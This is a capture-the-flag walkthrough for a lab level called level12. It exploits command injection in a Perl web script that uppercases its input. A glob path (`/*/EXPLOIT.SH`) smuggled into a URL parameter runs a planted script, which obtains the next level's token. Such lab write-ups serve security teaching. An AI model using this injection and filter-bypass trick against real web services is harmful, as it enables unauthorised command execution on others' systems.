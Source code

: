 # Level12

## Objective
Exploit the `level12` Perl script to execute a script named with uppercase characters only and obtain the token.

## Steps

### Step 1: Write Exploit Script
Create a script named `EXPLOIT.SH` in the `/tmp/` directory with uppercase characters:

```bash
echo '#!/bin/bash' > /tmp/EXPLOIT.SH
echo 'getflag > /tmp/flag' >> /tmp/EXPLOIT.SH
chmod +x /tmp/EXPLOIT.SH
```

### Step 2: Exploit with Uppercase Characters
Visit the URL in the browser with uppercase characters:

```bash
http://192.168.56.2:4646/?x=$(/*/EXPLOIT.SH)
```

Or use `curl`:

```bash
curl localhost:4646?x='`/*/EXPLOIT.SH`'
```

### Step 3: Obtain Token
Check the contents of the `/tmp/flag` file:

```bash
cat /tmp/flag
```

This should give you the token for `level13`.

### Step 4: Switch to `level13`
Switch to the `level13` user:

```bash
su level13
```

### Step 5: Verify
Execute `getflag` to verify that you have access:

```bash
getflag
```

This should give you the flag for this level.

Congratulations! You've successfully exploited the `level12` Perl script to obtain the token for `level13`.